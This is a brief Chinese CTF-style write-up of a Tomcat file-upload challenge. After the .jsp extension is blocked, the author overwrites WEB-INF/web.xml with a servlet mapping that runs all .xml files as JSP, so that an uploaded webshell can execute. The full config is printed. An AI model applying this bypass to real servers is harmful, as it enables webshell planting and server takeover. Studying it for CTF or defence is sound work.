 ![](../../../../images/1ac38f4a75d28ddad89429e28461a386.png)

文件上传，先访问一下不存在的页面，发现 Tomcat，应该是 servlet，考虑传 jsp 马。

![](../../../../images/51199306d651f06184a95bbe4dbf8e46.png)

传一个 jsp 马上去，发现 jsp 后缀被过滤了，重命名文件也无果。

这边可以考虑操作一下 /WEB-INF/web.xml 这个配置文件，让其解析其他文件为 jsp，然后连接。

修改解析方式通过 mapping 实现，这里把所有 .xml 文件都解析为了 jsp。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0">
  <servlet>
    <servlet-name>xml</servlet-name>
    <servlet-class>org.apache.jasper.servlet.JspServlet</servlet-class>
  </servlet>
  <servlet-mapping>
    <servlet-name>xml</servlet-name>
    <url-pattern>*.xml</url-pattern>
  </servlet-mapping>
</web-app>




```
